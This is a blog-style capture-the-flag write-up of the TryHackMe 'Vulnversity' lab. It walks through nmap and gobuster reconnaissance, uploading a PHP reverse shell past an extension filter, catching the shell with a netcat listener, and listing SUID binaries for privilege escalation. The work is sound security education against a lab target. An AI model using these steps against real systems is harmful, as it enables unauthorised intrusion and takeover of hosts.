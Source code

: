 ```yaml
---
title: "Try Hach Me - Vulnversity"
date: 2022-05-08T17:50:58+05:30
description: "vulnversiy  was the first box towards offensive security path. we found web portal running on port 3333 using gobuster we found some  directory's,  which helps To upload our shell codes. with help of  securifera github page we can able to identify correct file  extension, gained user shell using php-reverse-shell and escalated privilege using SUID bit binary with help of Gtfobins."
draft: false
hideToc: false
tocPosition: outer
enableToc: true
enableTocContent: false
author: Atom
authorEmoji: ✍️
tags: 
- suid
- systemctl
series:
- Try Hack Me - Offensive Security
categories:
- tryhackme
image: /images/tryhackme/vulnversity/cover.webp
---
```

## Road Map
{{< img src="/images/tryhackme/vulnversity/roadmap.webp" alt="image alt" width="1000px" position="center" >}}
#
Vulnversiy  is the first box towards offensive security path. we found web portal running on port 3333 using gobuster we found some  directory's,  which helps To upload our shell codes. with help of securifera github page we can able to identify correct file  extension, gained user shell using weevely and escalated privilege using SUID bit binary with help of Gtfobins.
## Info Table
<table style="width:70%">
 <thead>
  <tr>
    <th>Title</th>
    <th>Vulnversity</th>
  </tr>
</thead>
  <tr>
    <td>Description</td>
    <td>Learn about active recon, web app attacks and privilege escalation.</td>
    </tr>
  </tr>
   <tr>
    <td>Difficulty</td>
    <td>Easy</td>
    </tr>
    <tr>
    <td>Maker</td>
    <td>Try Hack Me </td>
    </tr>
</table>

## Reconnaissance
``` bash
$ nmap -sV 10.10.8.53
Starting Nmap 7.80 ( https://nmap.org ) at 2022-04-28 15:35 IST
Nmap scan report for 10.10.8.53
Host is up (0.30s latency).
Not shown: 994 closed ports
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 3.0.3
22/tcp   open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
3128/tcp open  http-proxy  Squid http proxy 3.5.12
3333/tcp open  http        Apache httpd 2.4.18 ((Ubuntu))
Service Info: Host: VULNUNIVERSITY; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 66.94 seconds

```
The result of nmap scan makes port 3333 interest because.  service HTTP belongs to port 80. lets dig port 3333

{{< img src="/images/tryhackme/vulnversity/1.png" alt="image alt" width="1000px" position="center" >}}

## directory search

lets do directory search and identify if any sensitive directory  are exposed 

``` bash {hl_lines=[23]}
$gobuster dir -u http://10.10.1.215:3333 -w /usr/share/wordlists/dirb/common.txt 
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.1.215:3333
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/04/28 23:29:54 Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 292]
/.htaccess            (Status: 403) [Size: 297]
/.htpasswd            (Status: 403) [Size: 297]
/css                  (Status: 301) [Size: 315] [--> http://10.10.1.215:3333/css/]
/fonts                (Status: 301) [Size: 317] [--> http://10.10.1.215:3333/fonts/]
/images               (Status: 301) [Size: 318] [--> http://10.10.1.215:3333/images/]
/index.html           (Status: 200) [Size: 33014]                                    
/internal             (Status: 301) [Size: 320] [--> http://10.10.1.215:3333/internal/]
/js                   (Status: 301) [Size: 314] [--> http://10.10.1.215:3333/js/]      
/server-status        (Status: 403) [Size: 301]                                        
                                                                                       
===============================================================
2022/04/28 23:31:55 Finished
===============================================================
```
{{< img src="/images/tryhackme/vulnversity/2.png" alt="image alt" width="1000px" position="center" >}}

here there is a place to upload file, lets try to upload reverse shell file, in kali below directory we have set of php shell payloads. just modify attacker ip and port and upload

## Reverse shell
``` bash
$vim /usr/share/webshells/php/php-reverse-shell.php
```
{{< img src="/images/tryhackme/vulnversity/3.png" alt="image alt" width="800px" position="center" >}}

upload the php reverse shell 

{{< img src="/images/tryhackme/vulnversity/4.png" alt="image alt" width="1000px" position="center" >}}

we notice that .php extension is not allowed to upload, lets try to bypass or find right extension to upload 

{{< img src="/images/tryhackme/vulnversity/5.png" alt="image alt" width="1000px" position="center" >}}

we need list of extension file we will use   <a href="https://gist.github.com/securifera/e7eed730cbe1ce43d0c29d7cd2d582f4">securifera</a> filename extension file which is available on his github page 

{{< img src="/images/tryhackme/vulnversity/6.png" alt=" image alt" width="1000px" position="center">}}

make sure that you need to untuck url encoding which is available under Payload Encoding 

{{< img src="/images/tryhackme/vulnversity/7.png" alt=" image alt" width="1000px" position="center">}}

after our payload has been uploaded successfully, we need to find right directory ware our payload has been uploaded, again we will use directory search each suspicious directory 

{{< img src="/images/tryhackme/vulnversity/8.png" alt=" image alt" width="800px" position="center">}}

we finded upload directory and it contains our payload, before accessing payload file, netcat listen on port which is configured on payload 

## Initial FootHold
``` bash
┌─[atomloop@atomloop-virtualbox]─[~]
└──_ $sudo nc -lvnp 8181
[sudo] password for atomloop: 
listening on [any] 8181 ...
connect to [10.18.105.26] from (UNKNOWN) [10.10.25.213] 37564
Linux vulnuniversity 4.4.0-142-generic #168-Ubuntu SMP Wed Jan 16 21:00:45 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 05:48:30 up  1:40,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$
```
yes, we got our initial foot hold, lets try to esculate privilege, lets list any SUID files 

### SUID files 

``` bash  {hl_lines=[26]}
$ sudo -l
sudo: no tty present and no askpass program specified
$ find / -perm -u=s 2>/dev/null
/usr/bin/newuidmap
/usr/bin/chfn
/usr/bin/newgidmap
/usr/bin/sudo
/usr/bin/chsh
/usr/bin/passwd
/usr/bin/pkexec
/usr/bin/newgrp
/usr/bin/gpasswd
/usr/bin/at
/usr/lib/snapd/snap-confine
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/squid/pinger
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/bin/su
/bin/ntfs-3g
/bin/mount
/bin/ping6
/bin/umount
/bin/systemctl
/bin/ping
/bin/fusermount
/sbin/mount.cifs

```


